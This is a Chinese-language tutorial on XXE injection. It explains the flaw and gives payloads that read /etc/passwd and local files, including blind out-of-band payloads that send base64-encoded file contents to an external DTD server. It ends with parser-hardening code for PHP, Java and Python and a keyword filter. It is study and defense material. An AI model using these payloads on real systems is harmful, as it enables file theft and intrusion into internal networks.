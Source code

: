 ## XXE漏洞原理
XXE漏洞也叫XML外部实体注入。由于没有禁止外部实体的加载,攻击者可以加载恶意外部文件，而应用程序解析输入的XML数据时,解析了攻击者伪造的外部实体导致产生XML漏洞。

## XXE漏洞的危害
（1）读取任意文件</br>
（2）执行系统命令</br>
（3）内网端口扫描</br>
（4）攻击内网其他网站

## XXE漏洞的利用
一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到payload的执行结果或现象，无回显的情况又称为blind xxe，可以使用外带数据通道提取数据。
### （一）有回显的情况
**（1）直接通过DTD外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<abc>&test;</abc>
```
**（2）通过DTD文档引入外部DTD文档，再引入外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://localhost/evil.dtd">
<abc>&b;</abc>
evil.dtd内容：
<!ENTITY b SYSTEM "file:///etc/passwd">
```
**（3）通过DTD外部实体声明引入外部实体声明**</br>
XML内容如下:
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % d SYSTEM "http://localhost/evil.dtd">
%d;
]>
<abc>&b;</abc>
```
evil.dtd内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

### （二）无回显情况，又称blind xxe，使用外带数据通道提取数据
**（1）第一种无回显示payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd; %all;
]>
<abc>&send;</abc>
```
其中evil.xml文件内容为
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost%file;'>">
```
调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用实体send。

**（2）第二种无回显payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd;
%send;
]>
<abc></abc>
```
其中evil.xml文件内容为：
```
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://localhost/?content=%file;'>"> %payload;
```
调用过程和第一种方法类似，但最里层的嵌套里%要进行实体编码成%。无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。</br>
这里注意参数实体引用%file;必须放在外部文件里，因为根据这条规则 。在内部DTD里，参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则解析器会报错： PEReferences forbidden in internal subset。这里的internal subset指的是中括号[]内部的一系列元素声明，PEReferences 指的应该是参数实体引用 Parameter-Entity Reference 。</br>
一般都使用第二种方法，因为当文件中含有中文字符或<字符，会导致不能解析。

## XXE漏洞的防御
（1）禁用外部实体
```python
//在php中，引用外部实体和libxml库有关系
//libxml > 2.9 默认不解析外部实体
libxml_disable_entity_loader(true);

//java:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

//python:
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
（2）过滤和验证用户提交的xml数据，防止出现非法内容；过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC等。
